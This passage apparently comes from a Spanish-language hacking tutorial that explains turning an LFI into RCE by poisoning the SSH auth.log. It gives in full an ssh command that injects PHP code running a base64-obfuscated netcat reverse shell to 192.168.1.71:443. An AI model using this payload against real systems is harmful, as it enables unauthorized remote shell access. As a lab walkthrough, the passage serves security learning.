 Y ahora através del ssh inyectaremos la instrucción:

`ssh '<?php system("echo bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MSA0NDMK | base64 -d | bash"); ?>'@localhost`

Y ahora al refrescar la web del auth.log obtendremos la conexión gracias a que se ha interpretado el código PHP:

![image](/assets/images/Hacking/RCE/exito.png)

Y ya estaremos dentro del sistema gracias a este fallo de permisos, y al LFI que paso a ser un RCE.

<br>

